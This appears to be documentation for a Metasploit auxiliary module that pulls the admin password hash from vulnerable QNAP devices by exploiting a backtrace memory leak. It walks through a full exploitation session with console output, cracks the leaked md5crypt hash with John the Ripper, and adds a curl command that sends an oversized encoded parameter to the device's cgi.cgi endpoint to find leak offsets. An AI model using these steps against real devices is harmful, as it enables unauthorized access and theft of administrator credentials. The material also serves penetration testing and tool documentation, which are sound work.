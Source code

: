 ## Intro

This is going to be a quick rundown of how to use this module to
retrieve the admin hash from a vulnerable QNAP device.

The defaults I've set should be adequate for blind exploitation, but you
may need to tweak them for your target.

## Options

**OFFSET_START**

You want to set this to a value where you can see a backtrace. Set this
lower if you're not sure. Default is 2000.

**OFFSET_END**

Set this option to a value where you don't see a backtrace. Set this
higher if you're not sure. Default is 5000.

**RETRIES**

Sometimes the attack won't be successful on the first run. This option
controls how many times to retry the attack. Default is 10.

**VERBOSE**

This will tell you how long the binary search took and how many requests
were sent during exploitation. Default is false.

## Usage

Let's run through a successful exploitation. I've tailored the options
to my target. Your target may differ.

```
msf > use auxiliary/gather/qnap_backtrace_admin_hash 
msf auxiliary(qnap_backtrace_admin_hash) > set rhost [redacted]
rhost => [redacted]
msf auxiliary(qnap_backtrace_admin_hash) > set offset_end 3000
offset_end => 3000
msf auxiliary(qnap_backtrace_admin_hash) > set verbose true
verbose => true
msf auxiliary(qnap_backtrace_admin_hash) > run

[*] QNAP [redacted] detected
[*] Binary search of 2000-3000 completed in 5.02417s
[*] Admin hash found at 0x8068646 with offset 2920
[+] Hopefully this is your hash: $1$$vnSTnHkIF96nN6kxQkZrf.
[*] 11 HTTP requests were sent during module run
[*] Auxiliary module execution completed
msf auxiliary(qnap_backtrace_admin_hash) > 
```

We got lucky on this run. Sometimes it takes a couple retries to get the
hash. Now what do we do with it...

```
wvu@kharak:~$ john --wordlist --rules --format=md5crypt shadow
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter2          (admin)
1g 0:00:00:01 DONE (2017-03-15 04:41) 0.8928g/s 24839p/s 24839c/s
24839C/s flipper2..mercury2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$ 
```

Cracked! Now you can log in to the device. Shells await!

## Addendum

I used this `curl` command to test for offsets:

```
curl -kvA "" "https://[redacted]/cgi-bin/cgi.cgi?u=admin&p=$(perl -e 'print "A"x2000' | base64 -w 0)"
```

